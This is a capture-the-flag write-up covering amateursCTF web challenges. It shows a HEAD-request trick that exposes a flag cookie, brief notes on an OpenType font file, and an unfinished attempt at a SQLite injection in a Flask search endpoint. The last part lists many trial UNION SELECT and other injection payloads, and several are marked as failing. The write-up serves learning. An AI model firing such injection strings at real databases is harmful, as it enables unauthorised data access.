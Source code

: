 ## web/denied
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/4ce1ae31-5215-4b63-a718-291dfc484dc5)
- on reaching the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/12e69d4e-1bdd-425f-9f81-c5c5c2a66ed1)
- the given code
```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
- so we must not use get method
- copied the curl request and made a post
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3758a32d-8118-4002-baf0-3b2d75bebeda)
- the post method is not available
- so we see what options do we have
- we see get,head
- now from this https://reqbin.com/req/c-tmyvmbgu/curl-head-request-example
- we do send a head request
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b8d0bda9-d3c4-4e25-a028-30c5a6b8e025)
```
C:\home\radha> curl http://denied.amt.rs/ -I     
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Sat, 06 Apr 2024 05:37:48 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```
- we got a cookie
- use url decoder
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c1be76e1-43d2-4bc7-843b-90b6261f8924)
- we get the flag`amateursCTF{s0_m@ny_0ptions...}`
## web/agile-rut --not completed
- problem
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c962a307-98b8-4f64-a8a4-e8964e8c45b2)
- the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1afebdb7-57e2-433e-9f85-aada7e3d7793)
- otf file  OpenType font format.
- https://docs.fileformat.com/font/otf/
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/eb110157-b1d8-4fe1-a052-8261aadd37ce)
```
C:\home\radha\Downloads\amertus_ctf\web\agile_rut> head *
OTTO
� CFF Ϋ�p�[GSUBЄ��d�rOS/2px
Qxcmap9�x��4head*Rv��6hhea���$hmtxo��maxphname��D}p-post� ت��_<�3{�3{���+���RhPh��������1�XXXX@  =��R����  "�)5'
�
```
- so type,name descripton
```
uint32	sfntVersion	0x00010000 or 0x4F54544F (‘OTTO’)
```
## web/one-shot
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3504a4c4-81b4-4a62-b96c-c056218cced4)
- sqlite3 https://www.digitalocean.com/community/tutorials/how-to-use-the-sqlite3-module-in-python-3
- in memory sqlite3 https://www.sqlite.org/inmemorydb.html
- support for concurrency https://stackoverflow.com/questions/393554/python-sqlite3-and-concurrency
- https://www.geeksforgeeks.org/python-re-search-vs-re-match/
```
import re
a=input("give id")
while(a!=0):
    if not re.match("[1234567890abcdef]{3}", a):
        print("invalid id")
    else:
        print("valid")
    a=input("give id")
```
- there is a issue with regular expression it is re.match
- so if we give exaclty 16 valid chars followed by anything it just accepts
```
@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."

```
- so here id is user contolled
- i dont see any default tables with table_* in sqlite3
- we need to see what happens` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]` when table does not exist
- `a%'union select 1/*` in /search gives internal servre err
- `a%'union select "1"/*`
- this does give output so there is sql injection
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/df4d2a1e-53de-4f99-b249-9683cca1866e)
- `a%';union select "1"/*` -internal sever er
- `a%'union select "1" from (DELETE FROM table_{id})/*` -500
- `a%'union select "1" from table_{id}/*` -500
- sqlite_schema
- https://www.sqlite.org/schematab.html
- `a%'union select name from sqlite_schema/*` this does give a lot of info
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ace9ce66-2470-4753-8f09-966567c1c3ac)
- a%'union select name from sqlite_schema where name=table_{id}/*
-  a%'union select name from sqlite_schema where name LIKE 'table_%'/* --gives all tables with table_
- `a%'union select name from sqlite_schema where name LIKE 'table_{id}'/*` --does give our table
-  ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f2f5b791-7cd1-4450-bc05-005762b6c41b)
-  a%'union select name from sqlite_schema where name LIKE 'table_'/*
-  a%'union select name from sqlite_schema where name LIKE 'table_{id}';select '111'/*
-  ` a%'union select password from table_{id}/*` --500
-  
-   ` a%'union select table_{id}/*` --500

- a%'union select password from table_{id}/*- 500
- INSERT INTO table (column1,column2 ,..) VALUES( value1,	value2 ,...)
- `SELECT name 
FROM (
    INSERT INTO mytable1 (col1, col2) 
    VALUES (val1, val2) 
    RETURNING name
) AS inserted_rows;
`
- a%'union select name from (INSERT INTO sqlite_schema(name) VALUES (1729) RETURNING name) /* 

- a%'union select name from sqlite_schema AND sleep(10)/*-500
- a%'union select name from sqlite_schema into outfile/*
- a%'union select load_file("flag.txt")/*-500
- a%'union select name from sqlite_schema into/*
- a%'union select name from sqlite_schema into outfile "./radha1.txt"/* -500
- a%'union select name from sqlite_schema into outfile "radha1.txt"/*-500
- a%'union select name from sqlite_schema into outfile 'radha1.txt'/*-500
- a%'union select name from sqlite_schema into outfile './radha1.txt'/*
### load_extension --not workign
- load_extension https://docs.python.org/3/library/sqlite3.html
-  Load the fulltext search extension
- con.execute("select load_extension('./fts3.so')")
a%'union select load_extension ('./flag.txt')/*
### close and open query
- a%'union select name from sqlite_schema/*
-  query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
-   a%'")\nquery=db.execute("select "1")/* -500
-   a%'union (select (create table radha(col1 text) as "1"/* -500
  
